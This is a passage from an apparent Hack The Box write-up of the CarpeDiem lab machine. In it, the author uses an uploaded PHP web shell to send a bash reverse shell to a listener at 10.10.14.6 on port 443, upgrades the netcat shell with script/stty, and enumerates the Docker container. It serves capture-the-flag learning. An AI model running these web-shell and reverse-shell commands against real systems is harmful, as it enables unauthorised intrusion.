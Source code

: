     
    
    oxdf@hacky$ curl -G --data-urlencode 'cmd=bash -c "bash -i >& /dev/tcp/10.10.14.6/443 0>&1"' http://portal.carpediem.htb/uploads/1669663920_0xdf.php
    

At a listening `nc`, there’s a shell:

    
    
    oxdf@hacky$ nc -lnvp 443
    Listening on 0.0.0.0 443
    Connection received on 10.10.11.167 46920
    bash: cannot set terminal process group (1): Inappropriate ioctl for device
    bash: no job control in this shell
    www-data@3c371615b7aa:/var/www/html/portal/uploads$ 
    

I’ll upgrade the shell with the `script` / `stty`
[trick](https://www.youtube.com/watch?v=DqE6DxqJg8Q):

    
    
    www-data@3c371615b7aa:/var/www/html/portal/uploads$ script /dev/null -c bash
    script /dev/null -c bash
    Script started, output log file is '/dev/null'.
    www-data@3c371615b7aa:/var/www/html/portal/uploads$ ^Z
    [1]+  Stopped                 nc -lnvp 443
    oxdf@hacky$ stty raw -echo; fg
    nc -lnvp 443
                reset
    reset: unknown terminal type unknown
    Terminal type? screen
    www-data@3c371615b7aa:/var/www/html/portal/uploads$ 
    

## Shell as hflaccus on CarpeDiem

### Host Enumeration

#### Docker

There’s not much on this host, and it’s clearly a Docker container:

  * The hostname is random string and not CarpeDiem.
  * There’s a `.dockerenv` file in the system root.
  * Common commands like `ifconfig` and `ip` are missing.

#### General

The IP address can be found in `/proc/net/fib_trie` to be 172.17.0.6 (though
it’s possible that the last octet will change on a reboot / reset of the box).

There are no user home directories in `/home`.

In `/var/www/html` there is a `portal` directory that has the application code
for this web server. The `carpediem.htb` “Coming soon” site doesn’t seem to be
present on this container.
